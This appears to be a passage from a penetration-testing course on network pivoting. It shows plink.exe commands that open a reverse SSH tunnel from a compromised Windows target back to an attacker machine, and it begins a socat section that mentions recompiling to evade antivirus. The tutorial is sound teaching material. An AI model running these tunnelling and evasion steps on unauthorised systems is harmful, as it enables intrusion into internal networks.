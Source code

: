## plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client.  Now that Windows comes with its own inbuilt SSH client, plink is less  useful for modern servers; however, it is still a very useful tool, so  we will cover it here.

Generally speaking, Windows servers are  unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get  around the warning message that the target has not connected to this  host before. 

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80  back to port 8000 our own attacking machine (172.16.0.20), we could use  this command:
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly  the same way as with the Reverse port forwarding taught in the previous  task (despite the private key being converted, it will still work  perfectly with the same public key we added to the authorized_keys file  before).

***Note:** Plink is notorious for going out of  date quickly, which often results in failing to connect back. Always  make sure you have an up to date version of the* `.exe`*. Whilst there is a copy pre-installed on Kali at* `/usr/share/windows-resources/binaries/plink.exe`*, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible.*

## Socat

Socat is not just great for fully stable Linux shells[[1\]](https://tryhackme.com/room/introtoshells), it's also superb for port forwarding. The one big disadvantage of socat (aside from the frequent problems  people have learning the syntax), is that it is very rarely installed by default on a target. That said, static binaries are easy to find for  both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download). Bear in mind that the Windows version is unlikely to bypass Antivirus  software by default, so custom compilation may be required. Before we begin, it's worth noting: if you have completed the [What the Shell?](https://tryhackme.com/room/introtoshells) room, you will know that socat can be used to create encrypted  connections. The techniques shown here could be combined with the  encryption options detailed in the shells room to create encrypted port  forwards and relays. To avoid overly complicating this section, this  technique will not be taught here; however, it's well worth  experimenting with this in your own time.
